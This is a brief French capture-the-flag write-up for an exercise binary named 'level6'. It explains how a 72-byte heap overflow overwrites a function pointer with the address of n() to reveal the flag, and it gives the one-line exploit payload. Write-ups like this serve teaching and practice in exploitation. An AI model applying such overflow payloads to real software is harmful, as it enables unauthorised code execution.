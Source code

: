# level6

Au bout de **72 chars** on réecrie sur la heap (car `str` est malloc) (buffer overflow)

Plus précisément, on écrit sur `str1` car il est alloué juste après, on y écrit l'adresse de `n()` pour qu'il soit call juste après et nous donne le flag.

Notre payload:
```bash
./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
```
